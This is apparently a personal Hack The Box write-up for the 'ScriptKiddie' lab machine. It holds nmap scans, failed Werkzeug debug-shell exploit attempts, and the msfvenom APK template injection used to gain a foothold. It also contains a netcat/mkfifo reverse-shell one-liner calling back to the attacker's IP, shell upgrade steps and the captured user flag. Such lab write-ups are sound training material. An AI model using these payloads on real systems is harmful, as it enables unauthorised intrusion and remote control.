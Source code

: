 # how to push to git

cd existing\_folder
git init
git remote add origin https://gitlab.com/Injamam\_Ahmed/htb-writeups.git
git add .
git commit -m "Initial commit"
git push -u origin main


# Result of nmap scans

## Normal Nmap scan

``` bash
nmap -sCTV -oN /home/kali/HTB/scriptkiddie/nmap.txt 10.10.10.226                      
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-14 01:07 EDT
Nmap scan report for 10.10.10.226
Host is up (0.26s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.53 seconds
```

## vuln script nmap scan

 ``` bash
 nmap --script vuln 10.10.10.226                                                 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-14 01:07 EDT
Nmap scan report for 10.10.10.226
Host is up (0.26s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp

Nmap done: 1 IP address (1 host up) scanned in 16.63 seconds
```

## complete tcp port scan

``` bash 
nmap -sCV -p- -oN /home/kali/HTB/scriptkiddie/nmap_complete.txt 10.10.10.226    
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-14 01:08 EDT
Nmap scan report for 10.10.10.226
Host is up (0.26s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1502.51 seconds
```

### No new ports are open so we have to work on the open ones



# listing ports

## we have the following ports

  22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu
  
  5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
  
## 22 ssh is not vulnerable but 5000 might be but first lets visit the website

![[Pasted image 20210614012440.png]]

![[Pasted image 20210614012745.png]]

![[Pasted image 20210614012627.png]]

here is the website

### we can see something interesting here in port 5000 it says service is "upnp" whereas in our scan it says "http Werkzeug"

### we have to make this clear what is it but both of the things have vulnerability in them

``` bash
   What does enabling UPnP do?

Universal Plug and Play (**UPnP**) is a protocol that allows apps and other devices on your network to open and close ports automatically to connect with each other. ... **UPnP**\-**enabled** devices **can** automatically join a network, obtain an IP address, and find and connect to other devices on your network, making it very convenient.01-Aug-2019
```

``` bash
   Werkzeug - 'Debug Shell' Command Execution                                       |multiple/remote/43905.py        
  Werkzeug - Debug Shell Command Execution (Metasploit)                             python/remote/37814.rb 
```

### so we know the upnp is open and the werkzug hag debugshell commane execution so lets try to exploit it

## we tried to run the exploit from searchsploit but it didnt worked

``` bash
┌──(root💀kali)-[/home/kali/HTB/scriptkiddie]
└─# searchsploit -m 43905.py
  Exploit: Werkzeug - 'Debug Shell' Command Execution
      URL: https://www.exploit-db.com/exploits/43905
     Path: /usr/share/exploitdb/exploits/multiple/remote/43905.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /home/kali/HTB/scriptkiddie/43905.py
  
┌──(root💀kali)-[/home/kali/HTB/scriptkiddie]
└─# chmod +x 43905.py  
         
┌──(root💀kali)-[/home/kali/HTB/scriptkiddie]
└─# python2 43905.py                      
USAGE: python 43905.py <ip> <port> <your ip> <netcat port>

┌──(root💀kali)-[/home/kali/HTB/scriptkiddie]
└─# python2 43905.py 10.10.10.226 5000 10.10.14.23 1234                           
[-] Debug is not enabled
                              
┌──(root💀kali)-[/home/kali/HTB/scriptkiddie]
└─# python2 43905.py 10.10.10.226 5000 10.10.14.23 443               

[-] Debug is not enabled

```

### as we know we have upnp in 5000 we have to try to first enable the debug then we can have access

### lets run gobuster and see for any file in there
 ### no luck with gobuster 
 
 ## after hours realized it all was a rabbithole and the vulnerability is in a msfvenom apk file 
 
  ### so lets get the exploit for it and see what we can get
  
  https://www.exploit-db.com/exploits/49491
  
  ### this is the exploit we will change the attack type to get reverse shell
  
  ![[Pasted image 20210614030100.png]]
  
  ### we will change the payload to a reverse shell
  
  ``` bash
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.23 1234 >/tmp/f
  ```
  
  and then we will execute it to get the exploit
  
 the exploit is created 
 
 ### also create the exploit with metasploit which is easy
 
### then go to the page and in payloads column select os:android; lhost:127.0.0.1, and select the malecious apk file

![[Pasted image 20210615115504.png]]

# Getting user flag
  ## so we have a shell back
  ``` bash
  ┌──(root💀kali)-[/home/kali]
└─# nc -nlvp 443                                                                                                                                                     130 ⨯
Listening on 0.0.0.0 443
Connection received on 10.10.10.226 37274
whoami
kid
uid
/bin/sh: 2: uid: not found
id
uid=1000(kid) gid=1000(kid) groups=1000(kid)
```

now lets upgrade it to a good shell

``` bash
  python3 -c 'import pty;pty.spawn("/bin/bash")'
kid@scriptkiddie:~/html$ ls
ls
__pycache__  app.py  static  templates
kid@scriptkiddie:~/html$ cd /
cd /
kid@scriptkiddie:/$ ls
ls
bin   cdrom  etc   lib    lib64   lost+found  mnt  proc  run   snap  sys  usr
boot  dev    home  lib32  libx32  media       opt  root  sbin  srv   tmp  var
kid@scriptkiddie:/$ ^Z   
zsh: suspended  nc -nlvp 443  
┌──(root💀kali)-[/home/kali]
└─# stty raw -echo;fg            148 ⨯ 1 ⚙
[1]  + continued  nc -nlvp 443

kid@scriptkiddie:/$ export SHELL=bash
kid@scriptkiddie:/$ export XTERM=screen
kid@scriptkiddie:/$ export TERM=screen
kid@scriptkiddie:/$ stty rows 40 columns 171
```
       
  ## so now lets cat it and see the result
  
  ``` bash
  cat user.txt
4d3d7d998312326946cbc64a058aa200
kid@scriptkiddie:~$ 
```


